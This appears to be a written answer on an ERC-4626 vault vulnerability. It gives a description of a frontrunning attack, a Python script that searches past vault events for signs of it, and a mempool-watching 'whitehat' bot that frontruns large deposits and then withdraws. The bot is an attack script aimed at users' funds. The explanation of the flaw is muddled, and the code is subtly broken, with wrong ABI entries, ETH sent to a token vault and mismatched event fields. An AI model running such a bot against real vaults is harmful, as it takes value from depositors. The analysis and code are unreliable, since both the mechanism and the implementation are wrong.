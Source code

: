 # a) Vulnerability Description and Payoffs for an Attacker
The vulnerability in the old OpenZeppelin implementation of ERC-4626 revolves around the deposit mechanism and how it interacts with the asset's value within the vault. The vulnerability allows an attacker to perform frontrunning attacks by exploiting the predictable behavior of the vault during deposit transactions. Here’s a possible scenario:
- Predictable Deposit Behavior: When a user deposits assets into the ERC-4626 vault, the vault mints shares to the user based on the value of the assets at the moment of deposit.
- Frontrunning Opportunity: If an attacker observes that a large deposit is about to be made (e.g., from a mempool transaction), the attacker can frontrun this deposit by depositing a small amount of assets first.
- Share Inflation: The vault's logic might be such that it mints shares based on the current asset value before the large deposit dilutes the share value. After the large deposit, the attacker's shares represent a disproportionately larger amount of the vault’s assets.
- Withdrawing for Profit: After the large deposit has been processed, the attacker can immediately withdraw their shares, which now represent a larger portion of the vault’s assets, effectively stealing value from the vault.

Payoffs for an Attacker:
- The attacker can potentially extract a large portion of the vault’s assets by manipulating the timing of deposits and withdrawals.
- If unnoticed, this can drain significant value from the vault over time, leading to substantial losses for the vault’s users.

# b) Code to Check if the Vulnerability Has Occurred in the Past
```python
from web3 import Web3
from datetime import datetime


web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"))

# Define the ERC-4626 vault contract address and ABI, note that here is example abi and address
vault_address = "VaultContractAddress"
vault_abi = [
    {
        "constant": True,
        "inputs": [],
        "name": "totalAssets",
        "outputs": [{"name": "", "type": "uint256"}],
        "type": "function"
    },
    {
        "constant": True,
        "inputs": [],
        "name": "totalSupply",
        "outputs": [{"name": "", "type": "uint256"}],
        "type": "function"
    },
]


vault_contract = web3.eth.contract(address=vault_address, abi=vault_abi)

# Helper function to get past events (e.g., deposits and withdrawals)
def get_past_events(event_name, from_block, to_block):
    event_filter = vault_contract.events[event_name].createFilter(fromBlock=from_block, toBlock=to_block)
    return event_filter.get_all_entries()

# Analyze past transactions for evidence of the vulnerability
def analyze_vulnerability(from_block, to_block):
    deposit_events = get_past_events("Deposit", from_block, to_block)
    withdrawal_events = get_past_events("Withdraw", from_block, to_block)
    
    for i in range(1, len(deposit_events)):
        previous_deposit = deposit_events[i-1]
        current_deposit = deposit_events[i]
        
        # NOTE: If the current deposit is significantly larger, check if the previous depositor withdrew shortly after
        if current_deposit['args']['amount'] > previous_deposit['args']['amount'] * 10:
            # NOTE: Check if the previous depositor withdrew shortly after the large deposit
            for withdrawal in withdrawal_events:
                if (withdrawal['args']['account'] == previous_deposit['args']['account'] and
                    withdrawal['blockNumber'] > current_deposit['blockNumber']):
                    
                    print(f"Potential frontrunning detected: Account {withdrawal['args']['account']} "
                          f"deposited {previous_deposit['args']['amount']} and withdrew shortly after "
                          f"a large deposit of {current_deposit['args']['amount']} in block {current_deposit['blockNumber']}.")


analyze_vulnerability(from_block=0, to_block="latest")
```

# c) Code for the Whitehat Bot to Exploit the Vulnerability
```python3
import time
from web3 import Web3

web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"))


private_key = "YOUR_PRIVATE_KEY"
account = web3.eth.account.privateKeyToAccount(private_key)
vault_address = "0xYourVaultContractAddress"

# Define the ERC-4626 vault contract address and ABI (simplified for illustration)
vault_abi = [
    {
        "constant": True,
        "inputs": [],
        "name": "deposit",
        "outputs": [{"name": "shares", "type": "uint256"}],
        "type": "function"
    },
    {
        "constant": True,
        "inputs": [{"name": "shares", "type": "uint256"}],
        "name": "withdraw",
        "outputs": [{"name": "assets", "type": "uint256"}],
        "type": "function"
    },
]


vault_contract = web3.eth.contract(address=vault_address, abi=vault_abi)

# Helper function to send a transaction
def send_transaction(tx):
    signed_tx = web3.eth.account.sign_transaction(tx, private_key)
    tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
    return web3.toHex(tx_hash)

# Bot logic to frontrun a large deposit
def frontrun_large_deposit(min_deposit_value):
    while True:
        pending_txs = web3.eth.getBlock('pending', full_transactions=True).transactions
        
        for tx in pending_txs:
            # NOTE: Check if the transaction is a deposit to the vault
            if tx.to == vault_address and tx.value > min_deposit_value:
                print(f"Detected a large deposit: {web3.fromWei(tx.value, 'ether')} ETH in transaction {tx.hash.hex()}")
                
                # NOTE: Frontrun with a small deposit
                deposit_tx = vault_contract.functions.deposit().buildTransaction({
                    'from': account.address,
                    'value': web3.toWei(1, 'ether'),  # Example small deposit
                    'gas': 2000000,
                    'nonce': web3.eth.getTransactionCount(account.address),
                    'gasPrice': web3.eth.gas_price
                })
                
                tx_hash = send_transaction(deposit_tx)
                print(f"Sent frontrunning deposit transaction {tx_hash}")
                
                # Wait for the large deposit to confirm, then withdraw
                time.sleep(10)
                
                withdraw_tx = vault_contract.functions.withdraw(web3.toWei(1, 'ether')).buildTransaction({
                    'from': account.address,
                    'gas': 2000000,
                    'nonce': web3.eth.getTransactionCount(account.address),
                    'gasPrice': web3.eth.gas_price
                })
                
                tx_hash = send_transaction(withdraw_tx)
                print(f"Withdrew funds in transaction {tx_hash}")
        
        time.sleep(5)


frontrun_large_deposit(min_deposit_value=web3.toWei(100, 'ether'))
```
